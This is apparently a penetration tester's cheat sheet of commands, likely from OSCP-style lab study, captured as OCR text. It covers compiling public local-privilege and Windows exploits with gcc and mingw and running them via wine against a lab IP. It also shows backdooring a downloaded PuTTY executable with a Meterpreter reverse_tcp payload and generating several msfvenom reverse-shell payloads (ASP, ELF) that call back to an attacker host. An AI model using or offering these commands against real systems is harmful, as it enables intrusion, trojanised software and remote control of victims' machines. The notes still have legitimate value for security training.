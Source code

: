 •	For x86_64 kernel and ppc64 Compile as;

•	gcc -w -m64 -o exploit exploit.c

compile windows exploits on linux and run with wine

•	apt-get install mingw32

•	apt-get install mingw64

i586-mingw32msvc-gcc *exploit.c*

you may need to add in the winsock library to command syntax

•	i586-mingw32msvc-gcc *exploit.c* -lws2_32 -o *exploit-windows.exe*

#### other gcc commands

gcc -pthread dirty.c -o dirty -lcrypt

gcc -Wl,--hash-style=both -o exploit 9545.c

#### You may need to remove SSL

gcc apache-magika.c -o apache-magika -lssl

#### cross compiling

apt-get install mingw-w64

i686-w64-mingw32-gcc 646-fixed.c -lws2_32 -o 646.exe


wine 646.exe 10.11.1.35

setup reverse listener

#### backdoor a file:

wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe

msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai 
-i 3 -b "\x00" -f exe -o puttyX.exe

#### msfvenom

msfvenom -a x64 --platform windows windows/shell_reverse_tcp LHOST=10.11.0.202 LPORT=443 -f asp -o ~/pwk_recon/mal_files/OS-
27060-64.asp

msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.11.0.202 LPORT=443 -f asp -o shell.asp

msfvenom -a x86 --platform windows windows/meterpreter/reverse_tcp LHOST=10.11.0.202 LPORT=443 -f asp -o shell.asp

msfvenom -p bsd/x86/shell/reverse_tcp LHOST=10.11.0.202 LPORT=21 -f elf --platform bsd -o /var/www/bsd21rev

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=10.11.0.202 LPORT=6666 -f asp -o shell.asp
